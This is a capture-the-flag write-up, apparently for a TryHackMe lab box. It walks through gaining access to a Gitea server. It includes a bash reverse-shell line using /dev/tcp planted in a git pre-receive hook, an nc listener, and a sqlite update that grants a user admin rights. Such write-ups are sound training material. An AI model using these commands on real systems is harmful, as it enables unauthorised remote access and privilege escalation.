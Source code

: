 Git and Crumpet
============

Initial nmap scan

```bash
Nmap scan report for 10.10.227.80 (10.10.227.80)  
Host is up, received user-set (0.15s latency).  
Scanned at 2021-07-03 13:11:52 +0530 for 54s  
Not shown: 997 filtered ports  
Reason: 986 no-responses and 11 host-unreaches  
PORT     STATE  SERVICE    REASON       VERSION  
22/tcp   open   ssh        syn-ack      OpenSSH 8.0 (protocol 2.0)  
80/tcp   open   http       syn-ack      nginx  
9090/tcp closed zeus-admin conn-refused
```


## User Flag

When we visit website it redirect to youtube, so try to `curl` webpage for any hidden details.

```html
(...)
<h1>Nothing to see here, move along</h1>  
     <h2>Notice:</h2>  
     <p>    
       Hey guys,  
          I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet.    
          In the meantime, here's a fun video I found!  
       Hydra  
     </p>
(...)
```

Look like another site virtually hosted, add **git-and-crumpets.thm** and **git.git-and-crumpets.thm** to `/etc/hosts` file and visit **git.git-and-crumpets.thm**.

![](/Images/git_and_crumpet/git.png)

we come to this page but cannot do without accout so register account with any preffered name.

when we go thought site we find old commit file with hint for password here `http://git.git-and-crumpets.thm/scones/cant-touch-this/commits/branch/master`

![](/Images/git_and_crumpet/hint1.png)

can find avatar image in here `http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d`

use **curl** and **strings** to only useful strings.

`curl -s http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d | strings -n 8`

```
8tEXtDescription  
My 'Password' should be easy enough to guess  
E7V:W*555}  
&<A3Pr;5s  
L)';m}E)  
\IQG=;'1  
b9UfqEi 1
```

we have password you can also find email with many ways easiest is from profile.
`http://git.git-and-crumpets.thm/scones`

login using **email** and **password**.

![](/Images/git_and_crumpet/scones.png)

After loging goto `cant-touch-this` repository, under `settings` select `Git Hooks` and edit `pre-receive` and bash reverse shell.

full url link : `http://git.git-and-crumpets.thm/scones/cant-touch-this/settings/hooks/git`

```bash
add this line in pre-recevie "/bin/sh -i >& /dev/tcp/$IP/9999 0>&1"

start nc listner "nc -lvnp 9999"

goto Repository edit "README.md" add some random word and save
```


![](/Images/git_and_crumpet/shell.png)


then we need to stabilize the shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'   
  
  
export TERM=xterm  
  Press "CTRL + Z" then enter last command
  
stty raw -echo; fg


stty rows 31  # depend on your terminal size use "stty -a" see the size

stty cols 124 # depend on your terminal size use "stty -a" see the size

```

## Root Flag

In path `/var/lib/gitea/data` you will find `gitea.db` database file for git server, if we tinker with it we might find something to get root flag.

```bash
sqlite> .tables  

access                     org_user                    
access_token               project                     
action                     project_board               
attachment                 project_issue               
collaboration              protected_branch            
comment                    public_key                  
commit_status              pull_request                
deleted_branch             reaction                    
deploy_key                 release                     
email_address              repo_indexer_status         
email_hash                 repo_redirect               
external_login_user        repo_topic                  
follow                     repo_transfer               
gpg_key                    repo_unit                   
gpg_key_import             repository                  
hook_task                  review                      
issue                      session                     
issue_assignees            star                        
issue_dependency           stopwatch                   
issue_label                task                        
issue_user                 team                        
issue_watch                team_repo                   
label                      team_unit                   
language_stat              team_user                   
lfs_lock                   topic                       
lfs_meta_object            tracked_time                
login_source               two_factor                  
milestone                  u2f_registration            
mirror                     upload                      
notice                     user                        
notification               user_open_id                
oauth2_application         user_redirect               
oauth2_authorization_code  version                     
oauth2_grant               watch                       
oauth2_session             webhook                     

sqlite> .schema user  

CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `ful  
l_name` TEXT NULL, `email` TEXT NOT NULL, `keep_email_private` INTEGER NULL, `email_notifications_preference` TEXT DEFAULT '  
enabled' NOT NULL, `passwd` TEXT NOT NULL, `passwd_hash_algo` TEXT DEFAULT 'argon2' NOT NULL, `must_change_password` INTEGER  
DEFAULT 0 NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER DEFAULT 0 NOT NULL, `login_name` TEXT NULL, `type` IN  
TEGER NULL, `location` TEXT NULL, `website` TEXT NULL, `rands` TEXT NULL, `salt` TEXT NULL, `language` TEXT NULL, `descripti  
on` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL, `last_login_unix` INTEGER NULL, `last_repo_visibili  
ty` INTEGER NULL, `max_repo_creation` INTEGER DEFAULT -1 NOT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `is_re  
stricted` INTEGER DEFAULT 0 NOT NULL, `allow_git_hook` INTEGER NULL, `allow_import_local` INTEGER NULL, `allow_create_organi  
zation` INTEGER DEFAULT 1 NULL, `prohibit_login` INTEGER DEFAULT 0 NOT NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT  
NULL, `use_custom_avatar` INTEGER NULL, `num_followers` INTEGER NULL, `num_following` INTEGER DEFAULT 0 NOT NULL, `num_star  
s` INTEGER NULL, `num_repos` INTEGER NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL, `visibility` INTEGER DEFAUL  
T 0 NOT NULL, `repo_admin_change_team_access` INTEGER DEFAULT 0 NOT NULL, `diff_view_style` TEXT DEFAULT '' NOT NULL, `theme  
` TEXT DEFAULT '' NOT NULL, `keep_activity_private` INTEGER DEFAULT 0 NOT NULL);  
CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);  
CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);  
CREATE INDEX `IDX_user_created_unix` ON `user` (`created_unix`);  
CREATE INDEX `IDX_user_updated_unix` ON `user` (`updated_unix`);  
CREATE INDEX `IDX_user_last_login_unix` ON `user` (`last_login_unix`);  
CREATE INDEX `IDX_user_is_active` ON `user` (`is_active`);  

sqlite> select id,name,is_admin from user;  

1|hydra|1  
2|root|0  
3|scones|0  
4|test|0  
5|jordan|0  

sqlite> update user set is_admin=1 where id=3;  

sqlite> select id,name,is_admin from user;       

1|hydra|1  
2|root|0  
3|scones|1  
4|test|0  
5|jordan|0  
sqlite>
```

scone user have admin privilege now, lets goto git webpage and see any readable files.

In explore page we find new repository.

![](/Images/git_and_crumpet/backup.png)


We found ssh key in here. `http://git.git-and-crumpets.thm/root/backup/commit/0b23539d97978fc83b763ef8a4b3882d16e71d32` 

save the SSH key on your PC and login with it.

![](/Images/git_and_crumpet/root.png)

Happy Hacking!!!



